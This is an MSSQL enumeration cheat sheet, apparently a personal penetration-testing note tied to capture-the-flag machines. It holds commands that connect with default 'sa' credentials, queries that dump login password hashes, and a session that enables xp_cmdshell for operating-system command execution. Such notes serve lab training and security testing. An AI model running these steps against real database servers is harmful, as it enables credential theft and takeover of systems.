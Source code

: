 ```yaml
---
description: >-
  Enumerate MSSQL service.
title: MSSQL (tcp-1433)                  # Add title here
date: 2023-01-22 08:00:00 -0600                           # Change the date to match completion date
categories: [01 Enumeration, MSSQL (tcp-1433)]                     # Change Templates to Writeup
tags: [mssql enumeration, mssql rce]     # TAG names should always be lowercase; replace template with writeup, and add relevant tags
show_image_post: false                                    # Change this to true
#image: /assets/img/machine-0-infocard.png                # Add infocard image here for post preview image
---
```

#### Connection

```bash
impacket-mssqlclient sa@10.11.1.31 -p 1433 -db tempdb
```
#### MSSQL basic commands

```bash
# Show databases available
select name from sys.databases
# It also works for the same but as a store procedure
sp_databases
# Select the database for list its content
use streamio_backup
# List the name of the tables from a database
select * from information_schema.tables;
# List all the tables from a db
select table_name FROM dba_tables;
# List all from a table
select * from users;
# List user permissions
select sp.name as login, sp.type_desc as login_type, sl.password_hash, sp.create_date, sp.modify_date, case when sp.is_disabled = 1 then 'Disabled' else 'Enabled' end as status from sys.server_principals sp left join sys.sql_logins sl on sp.principal_id = sl.principal_id where sp.type not in ('G', 'R') order by sp.name;
```
Examples:
[[StreamIO#^2bc6f1]]
[Scrambled](https://shuciran.github.io/posts/Scrambled/#fnref:mssql-enum)

#### Command execution from MSSQL
If we have access to the MSSQL we can try to execute commands from MSSQL:
```bash
SQL> xp_cmdshell "whoami"
[-] ERR0R(TALLY): Line 1: SQL Server blocked access to procedure 'sys.xp_cmdshell' of component ,xp_cmdshell’ because this component is turned off as part of the security figuration for this server. A system administrator can enable the use of ,xp_cmdshell' by using sp_configure. For more information about enabling 'xp.cmdshell', search for p_cmdshell' in SQL Server Books Online.
SQL> sp_configure "xp_cmdshell", 1
[-] ERR0R(TALLY): Line 62: The configuration option 'xp_cmdshell' does not exist, or it may be an advanced option.
SQL> sp_configure "show advanced options", 1
[*] INF0(TALLY): Line 185: Configuration option 'show advanced options' changed from 0 to 1. Run the RECONFIGURE statement to install.
SQL> reconfigure
SQL> sp_configure "xp_cmdshell", 1
[*] INF0(TALLY): Line 185: Configuration option 'xp.cmdshell' changed from 0 to 1. Run the RECONFIGURE statement to install.
SQL> reconfigure
SQL> xp_cmdshell "whoami"
```
Examples:
[Scrambled](https://shuciran.github.io/posts/Scrambled/#fnref:mssql-command-execution)
Connect to database joined to the domain controller:
```bash
impacket-mssqlclient scrm.local/sa:sa@10.10.11.168
```
Examples:
[Scrambled](https://shuciran.github.io/posts/Scrambled/#fnref:mssql-connection)
